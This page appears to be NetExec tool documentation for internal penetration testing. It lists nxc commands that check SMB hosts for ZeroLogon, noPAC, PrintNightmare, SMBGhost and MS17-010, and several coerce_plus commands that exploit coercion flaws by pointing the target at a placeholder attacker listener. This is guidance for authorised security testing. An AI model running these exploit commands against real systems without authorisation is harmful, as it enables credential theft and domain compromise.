 ```yaml
---
description: Check if host is vulnerable
---
```


# Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

### ZeroLogon

`nxc smb <ip> -u '' -p '' -M zerologon`

### noPAC

`nxc smb <ip> -u 'user' -p 'pass' -M nopac`

{% hint style="warning" %}
You need a credential for noPAC vulnerability check.
{% endhint %}

### PrintNightmare

`nxc smb <ip> -u '' -p '' -M printnightmare`

### SMBGhost

`nxc smb <ip> -u '' -p '' -M smbghost`

### MS17-010 (Not tested outside LAB environment)

`nxc smb <ip> -u '' -p '' -M ms17-010`

Or, try them all at once! Just list each one: `-M zerologon -M printnightmare`

# Scan for Coerce Vulnerabilities

You can check for coerce vulnerabilities such as Petitpotam, DFSCoerce, PrinterBug, MSEven, and ShadowCoerce using the coerce_plus module. You can also use credentials to check for these vulnerabilities.

`nxc smb <ip> -u '' -p '' -M coerce_plus`

If a vulnerability is found, you can exploit it by using the same coerce_plus module

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>`

To run all exploit methods at once, add the ALWAYS=true option

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true`

You can also check for a specific coerce method by specifying it

`nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam`

{% hint style="success" %}
Instead of using the METHOD option, you can use its short form M. Similarly, the argument LISTENER can be shortened to L.

This also applies to the names of the vulnerabilities when specifying a method.

M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

M=pr // Matches printerbug

M=pe // Matches petitpotam

M=dfs // Matches dfscoerce
{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`
